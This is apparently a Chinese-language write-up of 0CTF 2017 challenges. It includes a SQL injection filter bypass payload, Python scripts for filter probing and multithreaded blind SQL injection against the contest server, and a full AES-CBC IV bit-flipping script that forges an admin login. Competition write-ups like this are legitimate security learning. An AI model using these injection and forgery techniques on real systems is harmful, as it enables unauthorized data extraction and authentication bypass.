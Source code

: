 ```yaml
---
title: 0ctf2017 writeup
pubDatetime: 2017-03-19 20:00:00
tags:
  - ctf
description: Already Archive Before 20230604
postSlug: archive_0ctf2017_writeup
---
```


结果高校第 9, 水啊

<!--more-->

### Web

#### simplesqlin

`id`先丢 sqlmap,发现能跑出来数据库名`news`

`order by 4` 500, `order by 3`正常

绕 waf 试试看, 发现简单的 select,from 通过%0b 即可绕过

`select` -> `sele%0bct`

直接 `id=-1 union sel%0bect 1,flag,3 fro%0bm news.flag`猜测表名和字段为 flag

`flag{W4f_bY_paSS_f0R_CI}`

#### Temmo's Tiny Shop

中午起床解这个题, login 那里上午有 bug,直接 admin 密码空可以进(其实这里面有竞争条件去买 8000 的 hint),看到 info 提示的内容(中间还换过一个表名)

`OK! Now I will give some hint: you can get flag by use \`select flag from ce63e444b0d049e9c899c9a0336b3c59\``

然后写个脚本测试一下 waf 的字符

```python
#!/usr/bin/python3
import re
import string
import requests as r

url = 'http://202.120.7.197/app.php?action=search&keyword=INT&order='
headers = {
	'Cookie': "PHPSESSID=tbuidum4os7k89q7dun6oms200",
}
NOWAF = []
WAF = []
for i in string.punctuation + string.ascii_letters:
	getter = r.get(url + i, headers=headers).text
	if 'error occurs or no result here' in getter:
		NOWAF.append(i)
		print('NoWAF: ' + i)
	elif 'WAF' in getter:
		WAF.append(i)
		print('WAF: ' + i)
	else:
		print(getter)
		exit()
print(WAF)
print(NOWAF)
```

发现只有`#,()`和字母可以用,关键词没测,用的时候再说

尝试了一些传参数的位置, 因为不能单引号, 也绕不过这个 waf, 下手只能在搜索的`order`位置上,先通过`=1`和`=id`确认是`order by`注入,通过顺序不同考虑 bool 注入

注册一个新号防干扰, 买 1600 和 300 的, 通过利用`field(price, 1600, 300)`和`field(price, 1600, 1)`返回的 goods 顺序不同,构造 payload

`order=field(price,1600,if(mid((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),%d,1)like(%s),300,1))`

因为是 like, 不跑 2 分, 上多线程

```python
import requests as r
import gevent
from gevent.monkey import *

url = 'http://202.120.7.197/app.php?action=search&keyword=&order=field(price,1600,if(mid((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),%d,1)like(%s),300,1))'
def run(k):
#	print('----%d----' % k)
	a = 0
	for i in range(0, 255):
		if a == 4:
			break
		s = r.get(url % (k,hex(i)), headers=headers).text
	#	print(s)
		if '"goods":[{"id":"6","' not in s:
			print('%d: %s' % (k, chr(i)))
			a += 1
		else:
			continue

gevent.monkey.patch_socket()
gevent.monkey.patch_ssl()

threads = [gevent.spawn(run, i) for i in range(6,31)]
gevent.joinall(threads)
```

拿到每一位去掉`%_`,得到大小写不明的`flag{r4ce c0nditi0n i5 excited}`

尝试用 ascii 判断 ascii 码, 发现(长度)被 WAF, 先试一下 flag 对不对再说

中间补上`_`, 小写尝试一下, flag 正确

### Misc

#### Welcome

IRC 即时聊天，访问 freenode 网站进入聊天室，获得 flag
http://webchat.freenode.net/?randomnick=0&channels=#0ctf2017

### Crypto

#### integrity

题目流程：

1. 首先随机 key
2. register： 输入 name，首先对 name 补足后缀，随机 iv，返回 AES_CBC( md5(name) || name ) 作为 secret
3. login： 用户输入 secret，按 register 逆着解码得到 name，若为 admin，则给出 flag

其中限制：输入的 name 长度不大于 32，且对 name 有 strip() 操作。

我们的目标为 admin，对此构造 name，并预先计算补全与 md5 值。

```python
name = "admin" + "\x0b" * 11 + suffix  # suffix 为任意长度小于 16 的字符串，我取的是 suffix = "admin"）
goal = "admin"  # 目标为 admin

pad_name = pad(name)  # "admin" + "\x0b" * 11 + "admin" + "\x0b" * 11
pad_goal = pad(goal)  # "admin" + "\x0b" * 11

md5_name = md5(name).digest()
md5_goal = md5(goal).digest()
```

提交 name 后获得一个代表了 64 字节的 secret，取出 iv 和 前两组密文，即前 48 字节，有一组 iv，一组 md5 值，一组一半的 name（即 pad_goal）。
其中第三组已符合要求，对于第二组，修改第一组的 iv 进行比特翻转攻击：iv = iv ⊕ md5_name ⊕ md5_goal
三组重新组合后 login 即可获取 flag

完整脚本：

```python
import hashlib
import socket
import time
import binascii


BS = 16
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS)
def md5(s):
    return hashlib.md5(s.encode()).digest()
def send(m):
    if isinstance(m, str):
        m = m.encode()
    print("send:", m)
    s.send(m)
def rec():
    m = s.recv(1024)
    print("recv:", m)
    return m


s = socket.socket()
s.connect(('202.120.7.217', 8221))
time.sleep(0.5)
md5_goal = [int(x) for x in md5("admin" + "\x0b" * 11)]
md5_name = [int(x) for x in md5("admin" + "\x0b" * 11 + "admin" + "\x0b" * 11)]

rec()
send("r\n")
send("admin" + "\x0b" * 11 + "admin\n")
rec()

data = rec().decode().replace('\n', '')
secret = [0] * 48
for i in range(0, 48):
    secret[i] = int(data[(i << 1): (i << 1) + 2], 16)
new_secret = [secret[i] ^ md5_goal[i] ^ md5_name[i] for i in range(16)] + secret[16:]
ans = b""
for x in new_secret:
    ans += bytes([x])

send("l\n")
send(binascii.b2a_hex(ans) + b"\n")
rec()
rec()
s.close()

```

### Reverse

#### Choices

看了一下 text 里的命令行，这是是一个 pass，llvm 的 pass，估计是做混淆的，看到 flatten 这个函数名，估计是拿 ollvm 改了改，获得源码一对照就知道改了什么地方。

Flatten 算法实现http://ac.inf.elte.hu/Vol_030_2009/003.pdf ,他修改的地方就是原本自动修改的控制控制流的值变成由用户输入了，那么我还原出这个值序列即可，通过逆向我们知道了值序列的生成算法，那么我们就可以生成一个值序列了。以这个作为输入即可。
